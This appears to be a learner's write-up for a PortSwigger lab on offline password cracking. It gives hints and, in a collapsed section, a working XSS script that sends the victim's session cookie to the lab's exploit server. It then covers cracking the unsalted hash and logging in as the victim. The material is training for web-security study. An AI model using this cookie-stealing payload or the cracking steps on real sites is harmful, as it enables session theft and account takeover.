 # Lab: Offline password cracking

- [Link](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

## Tips

I'll try to give some tips that can be useful in the solution. The first is, obviously, be curious. Try to explore what you can do with XSS vulnerabilities. If you're new to this kind of things like me, try to make the browser to run some `alert` when you enter a page, just to see if you can show the cookie in an alert box. To retrieve the cookie, I recommend you to try to use the [`CookieStore`](https://developer.mozilla.org/en-US/docs/Web/API/CookieStore) instead of [`Document.cookie`](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie) since it can give you more directly the cookie value without much string manipulation.

After you get the cookie, try to play a little with the `Exploit Server`. For example, try to answer questions such as: how can you make requests, how the requests are logged (see the `Access log`!) and how the server works. Find the answer to those questions before proceeding to the next step.

Now, with a good understanding on how the `Exploit Server` works, it's time to make a request to it with the cookie you gathered! Try to that and see if you can it through the `Exploit Server`!

This is how I could get it to work! See only if you don't know what to do!
<details>
<summary>Click to expand!</summary>
  
```js
<script>
    cookieStore.get("stay-logged-in").then(cookie =>
        fetch(`https://exploit-aca11f671fb9bf51c007053a01600054.web-security-academy.net/${cookie.value}`)
    )
</script>
```
</details>

Well, getting the cookie is one thing, the other is to understand the contents of it! If you took others labs, you'll easily see the pattern. Otherwise, try to answer the question: what known hash algorithms are vulnerable?

Now that you know what is the hash algorithm used in the cookie, you can start to use a passwords dictionary to see if you can find which one match the hashed password you found!

Of course, there's another easy way!
<details>
<summary>Click to expand!</summary>

Since we're talking about a hashed password without any salt, we can google it to see if we can find the original string.
  
</details>

Now that you found the password, log in with it and delete `carlos` account to finally see:

![Congratulations, you solved the lab!](./assets/congratulations.png)